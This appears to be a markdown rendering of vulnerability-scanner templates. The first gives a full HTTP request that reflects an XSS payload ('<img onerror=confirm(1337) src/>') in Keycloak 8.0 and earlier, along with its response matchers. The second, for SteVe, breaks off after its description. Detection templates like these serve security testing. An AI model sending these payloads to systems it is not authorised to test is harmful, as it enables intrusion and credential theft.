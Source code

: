 
# Keycloak \<=8.0 - Cross-Site Scripting

## Description

- Keycloak 8.0 and prior contains a cross-site scripting vulnerability. An attacker can execute arbitrary script and thus steal cookie-based authentication credentials and launch other attacks.
- severity - info
- tags - keycloak,xss

## Requests

### Step - 1

```
POST /auth/realms/master/clients-registrations/openid-connect HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"<img onerror=confirm(1337) src/>":1}

```

### Matchers

**Type - status**

- status
  1. 400

**Type - word**

- words
  1. Unrecognized field "\<img onerror=confirm(1337) src/>"

---

# SteVe - Cross-Site Scripting

## Description

- The aim of SteVe is to support the deployment and popularity of electric mobility. SteVe provides basic functions for the administration of charge points.

- severity - medium
- tags - steve,xss,oss

## Requests

- Method - GET
